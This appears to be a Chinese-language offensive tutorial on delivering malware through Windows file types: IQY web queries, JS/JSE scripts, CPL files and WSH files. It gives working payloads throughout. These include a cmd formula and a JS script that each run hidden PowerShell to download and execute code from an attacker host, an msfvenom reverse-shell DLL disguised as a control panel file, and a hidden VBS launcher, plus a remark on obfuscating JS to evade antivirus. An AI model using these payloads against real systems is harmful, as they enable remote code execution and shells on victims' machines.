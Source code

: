 
##### IQY

   iqy文件之前大家大部分都是只关注通过设置basic auth来获取账户密码或者NTLM Hash。

> refer:http://www.freebuf.com/news/76581.html

然而其实通过iqy文件是可以实现命令执行的

先通过nishang生成目标文件

*** Out-WebQuery -URL "http://192.168.1.9:8000/xxoo.html" ***

然后再xxoo.html里面写入你的payload 这里使用web_delivery

```
=cmd|'/c powershell iex(New-Object Net.WebClient).DownloadString(''http://192.168.1.9:9988/fFV54jXDi'') '!A0
```

效果如下

![no pic ]()

##### JS/JSE
一直都很火的js backdoor 原理比较简单　而且JS的可扩展性是极高的，可以实现多种混淆来绕过杀软。

这里给一个简单的payload

```
c = "powershell -w h -nologo -noprofile -ep bypass IEX ((New-Object Net.WebClient).DownloadString('http://192.168.1.9:9988/fFV54jXDi'));";
r = new ActiveXObject("WScript.Shell").Run(c,0,true)
```

保存为payload.js打开即可

##### CPL

其实cpl文件就是dll文件

只需要用msf生成一个dll的payload将名字改成xx.cpl　如果目标双击的话　即可成功getshell

payload
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.9 lport=4444 -f dll -o /tmp/test.cpl  
```

##### WSH

Windows Script HOST可以调用其他的脚本例如js vbs

再这里通过wsh来调用vbs脚本也是可以达成隐藏运行的目的

suchas shell.wsh

```
[ScriptFile]
Path=C:\Users\Hacker\AppData\Local\Temp\run.vbs
[Options]
Timeout=0
DisplayLogo=1
```
